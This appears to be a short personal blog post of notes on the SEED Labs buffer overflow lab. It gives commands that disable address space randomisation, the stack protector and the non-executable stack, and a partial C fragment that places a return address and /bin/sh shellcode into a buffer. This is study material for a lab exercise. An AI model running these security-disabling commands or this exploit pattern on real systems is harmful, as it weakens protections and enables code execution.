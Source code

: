 ```yaml
---
layout: post
title: "Buffer Overflow Attack"
categories:
  - Seed Labs
tags:
  - security
  - C
---
```


address space randomization
to turn it off:
* $ sudo sysctl -w kernel.randomize_va_space=0

Stack gaurd protection
to turn it off:
* $ gcc -fno-stack-protector

To make the stack be able to execute commands:
* $ gcc -z execstack

The shellcode invokes the
execve()
system call to execute
/bin/sh

if buffer size is 24
You need to fill the buffer with appropriate contents here */
    buffer[36] = 0xDC;
    buffer[37] = 0xEB;
    buffer[38] = 0xFF;
    buffer[39] = 0xBF;

    int i;
    int j = 0;
    int len = 512 - (sizeof(shellcode) / sizeof(shellcode[0]));
    printf("%d", len);
    for(i = len; i <= 512; i++){
        buffer[i] = shellcode[j];
        j++;
    }

if the buffer is 28 then i need to add 4 bytes to the buffer -> buffer[40]
